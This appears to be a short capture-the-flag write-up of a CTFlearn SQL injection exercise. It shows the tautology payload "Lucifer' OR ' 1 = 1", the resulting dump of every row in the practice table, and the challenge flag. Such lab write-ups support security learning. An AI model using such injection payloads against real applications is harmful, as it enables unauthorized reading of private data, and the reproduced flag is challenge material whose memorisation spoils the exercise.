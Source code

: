 <h2> Basic Injection </h2>

<h4>Problem Statement:</h4>
<p>See if you can leak the whole database using what you know about SQL Injections.</p>

<h4>Step-1:</h4>
<p>After visiting the given URL <a>https://web.ctflearn.com/web4/</a>, you will be asked to input something and then submit it.</p>

<h4>Step-2:</h4>
<p>Inspect the input text box.</p>
<p>You will find the line given below.</p>
<p><code> Try some names like Hiroki, Noah, Luke </code></p>

<h4>Step-3:</h4>
<p>You will find no flag even after submitting the above names. Now try basic SQL payloads in the existing database.</p>
<p>I submitted the input <code> Lucifer' OR ' 1 = 1</code>  and got the following output:</p>
<p>
<pre>
Name: Luke
Data: I made this problem.
Name: Alec
Data: Steam boys.
Name: Jalen
Data: Pump that iron fool.
Name: Eric
Data: I make cars.
Name: Sam
Data: Thinks he knows SQL.
Name: fl4g__giv3r
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
Name: snoutpop
Data: jowls
Name: Chunbucket
Data: @datboiiii
</pre>
</p>

<h4>Step-4:</h4>
<p>The desired flag <code> CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}</code> can be found in line number 12 of the above output.
